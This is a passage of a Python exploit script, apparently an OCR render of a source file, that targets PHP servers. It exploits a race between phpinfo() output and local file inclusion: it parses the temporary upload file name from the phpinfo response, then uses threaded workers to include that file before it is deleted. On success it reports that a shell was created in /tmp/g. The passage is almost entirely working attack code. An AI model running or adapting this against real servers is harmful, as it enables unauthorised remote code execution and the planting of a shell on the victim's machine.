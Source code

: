 ```python
            i = d.index("[tmp_name] =&gt;")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print("\nGot it! Shell created in /tmp/g")
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d+=i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt;")
    if i == -1:
        i = d.find("[tmp_name] =&gt;")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
```